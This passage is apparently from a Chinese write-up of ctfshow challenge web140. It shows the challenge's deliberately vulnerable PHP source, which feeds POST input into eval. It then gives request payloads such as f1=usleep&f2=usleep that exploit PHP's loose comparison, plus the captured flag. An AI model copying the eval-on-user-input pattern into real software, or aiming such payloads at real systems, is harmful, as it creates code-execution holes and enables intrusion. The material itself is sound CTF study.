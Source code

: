 ![image-20221005172317069](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202210051723143.png?x-oss-process=hzy)
ctfshow{cf501030201b8c14e2ab0647f0813547211a00de441f}

# web140

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-17 12:39:25

*/

error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['f1']) && isset($_POST['f2'])){
    $f1 = (String)$_POST['f1'];
    $f2 = (String)$_POST['f2'];
    if(preg_match('/^[a-z0-9]+$/', $f1)){
        if(preg_match('/^[a-z0-9]+$/', $f2)){
            $code = eval("return $f1($f2());");
            if(intval($code) == 'ctfshow'){
                echo file_get_contents("flag.php");
            }
        }
    }
}


```

intval($code) == 'ctfshow'这地方只需要满足前者code等于0即可

![image-20221006153858304](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202210061538405.png?x-oss-process=hzy)

​    

数字和字符串弱比较

```
f1=usleep&f2=usleep
f1=gmdate&f2=gmdate
f1=intval&f2=intval
```

![image-20221006154140542](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202210061541625.png?x-oss-process=hzy)

# web141

